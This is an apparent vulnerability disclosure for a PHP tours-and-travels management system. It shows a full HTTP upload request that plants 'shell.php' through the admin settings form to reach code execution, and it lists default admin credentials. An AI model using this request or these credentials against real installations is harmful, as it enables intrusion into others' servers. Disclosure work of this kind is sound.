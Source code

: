# Online Tours & Travels Management System v1.0 by mayuri_k has arbitrary code execution (RCE)

BUG_Author: XD201-MENG@QI

vendors: https://www.sourcecodester.com/php/14510/online-tours-travels-management-system-project-using-php-and-mysql.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/admin (Super Admin account)

Vulnerability url: ip/tour/admin/operations/update_settings.php

Loophole location: Online Tours & Travels management system's admin/settings.php file exists arbitrary file upload (RCE)

Request package for file upload:

```sql
POST /tour/admin/operations/update_settings.php?id=2 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/tour/admin/settings.php
Cookie: PHPSESSID=g29omi7f91g3h7ud1uhq6rbmkv
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------248921847826758
Content-Length: 1288

-----------------------------248921847826758
Content-Disposition: form-data; name="title"

Tours and Travels
-----------------------------248921847826758
Content-Disposition: form-data; name="f_image"; filename=""
Content-Type: application/octet-stream


-----------------------------248921847826758
Content-Disposition: form-data; name="old_img"

favi.png
-----------------------------248921847826758
Content-Disposition: form-data; name="logo_image"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------248921847826758
Content-Disposition: form-data; name="old_img1"

logo_by NB.png
-----------------------------248921847826758
Content-Disposition: form-data; name="login_image"; filename=""
Content-Type: application/octet-stream


-----------------------------248921847826758
Content-Disposition: form-data; name="old_img2"

logo_by NB.png
-----------------------------248921847826758
Content-Disposition: form-data; name="currency"

1
-----------------------------248921847826758
Content-Disposition: form-data; name="footer"

Nikhil B
-----------------------------248921847826758
Content-Disposition: form-data; name="update"


-----------------------------248921847826758--
```

The files will be uploaded to this directory \tour\admin\settings
![image](https://user-images.githubusercontent.com/54017627/183007125-0e3e7abb-80dd-4fa8-b302-194aff0bfc58.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/183007101-a6bc61b4-7b49-4e47-8931-1ef93a7dd710.png)
